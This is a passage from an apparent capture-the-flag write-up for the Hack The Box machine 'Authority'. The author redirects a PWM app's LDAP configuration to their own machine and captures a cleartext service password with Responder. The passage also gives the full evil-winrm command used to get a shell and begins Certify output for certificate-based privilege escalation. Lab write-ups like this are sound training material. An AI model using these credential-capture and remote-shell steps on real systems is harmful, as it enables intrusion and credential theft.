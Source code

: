 With this credentials, we can now connect to the wep app listening at 8443 port. We can now see the *Configuration Manager* and *Configuration Editor*. We cannot sign in with user and password because there is a LDAP error, the app cannot access the LDAP server:
```
Annuaire indisponible. Si cette erreur se reproduit, contactez votre service d'assistance. { 5017 ERROR_DIRECTORY_UNAVAILABLE (all ldap profiles are unreachable; errors: ["error connecting as proxy user: unable to create connection: unable to connect to any configured ldap url, last error: unable to bind to ldaps://authority.authority.htb:636 as CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb reason: CommunicationException (authority.authority.htb:636; PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target)"]) }
```

In *Configuration Manager* we can download the `PwmConfiguration.xml`, and then replace the LDAP URL to our machine and start a `Responder` listening in our machine. Then, when updating the configuration file, the app will restart and we receive the following in our `Responder`:
```
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

Finally, with this credentials I could connect to the machine using WinRM. With `evil-winrm`, I was able to obtain a PowerShell terminal with the following command, and the we can get the user flag:
```bash
$ evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
[...]
*Evil-WinRM* PS C:\Users\svc_ldap> cat Desktop/user.txt
[... flag ...]
```

## Root flag

For the root flag part, I don't know how to do Windows PrivEsc, so after researches and tries (with `winpeas` and `evil-winrm`), I decided to finish the box by following a write-up to learn some tricks about Windows PrivEsc.

So, first we need to notice that we have a `C:\Certs` folder on the root of the system. So we can use `certify.exe` or `certipy` (Python version) to find certificates and search vulnerabilities about them:

```
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
```